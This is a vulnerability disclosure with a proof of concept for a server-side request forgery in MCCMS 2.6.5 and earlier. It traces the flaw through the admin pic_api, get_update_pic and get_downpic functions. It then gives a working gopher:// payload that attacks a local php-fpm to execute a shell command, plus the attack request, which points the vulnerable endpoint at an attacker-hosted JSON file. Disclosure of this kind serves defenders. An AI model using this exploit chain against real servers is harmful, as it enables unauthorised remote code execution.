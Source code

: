 # MCCMS is vulnerable to Server-side request forgery (SSRF)
## Description
    MCCMS <= 2.6.5 is vulnerable to Server-side request forgery (SSRF)
## Vendor Homepage
    https://github.com/chshcms/mccms/

## Author
    HuBenLab
## Proof of Concept
The problem lies in the pic_api function in `sys/apps/controllers/admin/Comic.php`, which is used to cause ssrf by controlling the` $url`.

Code Analysis:

```php
    public function pic_api($url='',$mid=0,$cid=0,$tb=0,$return=0){
        if(empty($url)) $url = $this->input->get_post('url',true);//漏洞传参
        if(empty($cid)) $cid = (int)$this->input->get_post('cid');
        if(empty($mid)) $mid = (int)$this->input->get_post('mid');
        if(empty($url)) get_json('解析地址不能为空');
        if($mid == 0) get_json('Mid不能为空');
        if($cid == 0) get_json('章节ID不能为空');
        $row = $this->mcdb->get_row_arr('comic','*',array('id'=>$mid));

        if(!$row) get_json('漫画不存在');
        //解析
        $this->load->model('collect');
        $collect = require MCCMSPATH.'libs/collect.php';
        $ly = $row['ly'];
        $token = isset($collect['zyk'][$ly]) ? $collect['zyk'][$ly]['token'] : Caiji_Tb_Token;
        $picarr = $this->collect->get_update_pic($url,$cid,$mid,$token,$tb);//漏洞点
        if(empty($picarr)){
            if($return == 1){
                return false;
            }else{
                get_json('解析失败!!!');
            }
        }
        if($return == 1) return $picarr;
        $pic_arr = $this->mcdb->get_select('comic_pic','*',array('cid'=>$cid),'xid ASC',10000);
        $data['msg'] = '解析成功';
        $data['pic'] = $pic_arr;
        get_json($data,1);
    }
```

Follow up get_update_pic function, url passed into getcurl function trigger vulnerability, $url this pass reference get_post function second parameter to true, will enter the xss security filter, can url code all decoding, this place even if the secondary url code to play unauthorized can not bypass the security monitoring, so this place can only send some simple requests.

```php
    function get_update_pic($url,$zjid=0,$mid=0,$token='',$tb=0){
        $parr = json_decode(getcurl($url.'?token='.$token),1);//Trigger ssrf
        if($parr['code'] != 1) return false;
        $pic = $parr['data']['image'];
        foreach ($pic as $k2 => $v2) {
            $md5 = md5($v2['src']);
            //Determine if the image exists
            $row2 = $this->mcdb->get_row_arr('comic_pic','id,img',array('md5'=>$md5));
            if(!$row2){
                $add['img'] = $v2['src'];
                //Download image to local
                if(Caiji_Tb_Pic == 1 || $tb == 1) $add['img'] = get_downpic($add['img']);//Trigger second ssrf
                $add['width'] = isset($v2['width']) ? (int)$v2['width'] : 0;
                $add['height'] = isset($v2['height']) ? (int)$v2['height'] : 0;
                $add['cid'] = $zjid;
                $add['mid'] = $mid;
                $add['md5'] = $md5;
                $add['xid'] = $k2;
                $this->mcdb->get_insert('comic_pic',$add);
            }elseif($tb == 1 && strpos($row2['img'],'://') !== false){
                $img = get_downpic($row2['img']);
                $this->mcdb->get_update('comic_pic',$row2['id'],array('img'=>$img));
            }
        }
        //Total number of updated chapter pictures
        $this->mcdb->get_update('comic_chapter',$zjid,array('pnum'=>$parr['data']['image_num']));
        return $pic;
    }
```

![image-20230605132546515](./img/image-20230605132546515.png)

See the download image can be associated with remote download Trojan, but here can not download because it has monitored the suffix name, but here can still cause secondary ssrf.analysis of the code, to use the get_downpic function must meet the Caiji_Tb_Pic variable is 1 or tb variable is 1, tb we can not change, try to change the Caiji_Tb_Pic.

After searching, found caiji.php can change the variables.

![image-20230605133216562](./img/image-20230605133216562.png)

Select `Synchronize Collection and Inventory` and save.

![image-20230605133457375](./img/image-20230605133457375.png)

Continue to follow up the get_downpic function, directly into the getcurl function caused ssrf, using the second ssrf benefit is that you can bypass the filter to hit the unauthorized vulnerability.

```php
function get_downpic($picurl,$dir='comic'){
    $img = getcurl($picurl);
    $ext = strtolower(trim(substr(strrchr($picurl, '.'), 1)));
    if(!in_array($ext,array('jpg','png','jpeg','gif'))) $ext = 'jpg';
    $img_path_file = FCPATH.Annex_Dir.'/'.$dir.'/'.get_str_date(Annex_Path).'/';
    mkdirss($img_path_file);
    $img_path_file .= md5($picurl).'.'.$ext;
    $fp = fopen($img_path_file,'w');
    fwrite($fp, $img);
    //水印
    get_watermark($img_path_file);
    //同步
    get_tongbu($img_path_file);
    return str_replace(FCPATH,Web_Path,$img_path_file);
}
```

Construct the payload, here is an example of attacking fpm unlicensed.

```php
<?php
$a=array("code"=>1,"data"=>array("image"=>array("src"=>array("src"=>"gopher://127.0.0.1:7400/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%2A%02%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH72%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%3DSCRIPT_FILENAME/www/admin/www.mancheng.com_84/wwwroot/mccms-master/index.php%0D%01DOCUMENT_ROOT/%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00H%04%00%3C%3Fphp%20system%28%27touch%20/tmp/123123123%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00"))));
$b=(json_encode($a));
echo $b;
```

Put the generated json file in the server, the json format is generated by the get_update_pic function's fetching process here.

![image-20230605134442930](./img/image-20230605134442930.png)

Send a request to download the file, here we should notice that the same payload can only be used once, the second time will only update the database content will not download the file.

![image-20230605134523527](./img/image-20230605134523527.png)

payload:

```
http://172.16.5.221:84/admin.php/Comic/pic_api

post:url=http://xxxxx/1.png&cid=1&mid=1
```

Successful attack

![image-20230605134624008](./img/image-20230605134624008.png)
